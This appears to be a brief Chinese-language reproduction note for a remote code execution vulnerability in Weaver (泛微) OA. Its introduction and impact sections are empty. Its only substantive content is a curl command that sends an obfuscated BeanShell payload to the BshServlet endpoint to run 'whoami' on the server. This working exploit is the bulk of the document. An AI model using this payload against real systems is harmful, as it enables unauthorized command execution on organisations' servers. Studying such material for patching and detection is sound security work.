 泛微OA 管理系统RCE漏洞
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    curl http://0-sec.org:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw'
